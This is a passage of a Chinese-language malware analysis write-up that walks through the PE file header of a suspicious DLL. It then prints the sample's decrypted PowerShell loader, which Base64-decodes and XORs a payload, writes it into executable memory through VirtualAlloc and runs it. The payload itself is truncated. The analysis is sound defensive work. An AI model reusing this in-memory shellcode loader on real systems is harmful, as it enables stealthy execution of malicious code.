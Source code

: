 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-c1d2fc1ee8f734ee243f9eacaf849900b2c62da9.png)  
接下来我们来看PE文件头：

PE文件头一共20字节

```php
typedef struct \_IMAGE\_FILE\_HEADER {
WORD Machine;2 //CPU类型 
WORD NumberOfSections;2 //节数 
DWORD TimeDateStamp;4 //编译器的时间戳 
DWORD PointerToSymbolTable;4 //COFF文件符号表在文件中的偏移 
DWORD NumberOfSymbols;4 //如果有COFF 符号表，它代表其中的符号数目，COFF符号是一个大小固定的结构，如果想找到COFF 符号表的结束位置，则需要这个变量 
WORD SizeOfOptionalHeader;2 //可选pe头的大小 
WORD Characteristics;2 //文件属性相关 
} 
IMAGE\_FILE\_HEADER, \*PIMAGE\_FILE\_HEADER;
```

如下图：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-97031c8bee470dbb826e9740041b1920f56d0009.png)

最后的文件属性，要将两个字节的内容转成2进制，然后匹配下面的数据位：如 上图中对应两字节为A022

转成2进制：1010 0000 0010 0010 —&gt;第15、13、5、1位，所以该文件是一个大尾文件、dll文件、对应的应用程序可以处理大于2gb的地址，文件时可执行的：（这里也可以去参考导入和导出表来判断是dll还是exe）

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-17697f1d74ef7781735f2a5aadc8f9c4fac348ec.png)

直接使用Exeinfo先看下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-6693ce55eddb62c7f16337218767eb9b9da8bf61.png)

正常dll文件。

到这我有点懵了，放个dll文件放这干啥，

这里我们回过头去看下后续对该dll二进制文件的处理,也就是异或解密后的代码：

二、分析解密code之后的相关执行逻辑：
--------------------

```php
If (\[IntPtr\]::size \-eq 8) {  
    \[Byte\[\]\]$var\_code \= \[System.Convert\]::FromBase64String('bnlicXZrqsZr............................................jIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIw==')  
​  
    for ($x \= 0; $x \-lt $var\_code.Count; $x++) {  
        $var\_code\[$x\] \= $var\_code\[$x\] \-bxor 35  
    }  
​  
    $var\_va \= \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer((func\_get\_proc\_address kernel32.dll VirtualAlloc), (func\_get\_delegate\_type @(\[IntPtr\], \[UInt32\], \[UInt32\], \[UInt32\]) (\[IntPtr\])))  
    $var\_buffer \= $var\_va.Invoke(\[IntPtr\]::Zero, $var\_code.Length, 0x3000, 0x40)  
    \[System.Runtime.InteropServices.Marshal\]::Copy($var\_code, 0, $var\_buffer, $var\_code.length)  
​  
    $var\_runme \= \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer($var\_buffer, (func\_get\_delegate\_type @(\[IntPtr\]) (\[Void\])))  
    $var\_runme.Invoke(\[IntPtr\]::Zero)  
}
```
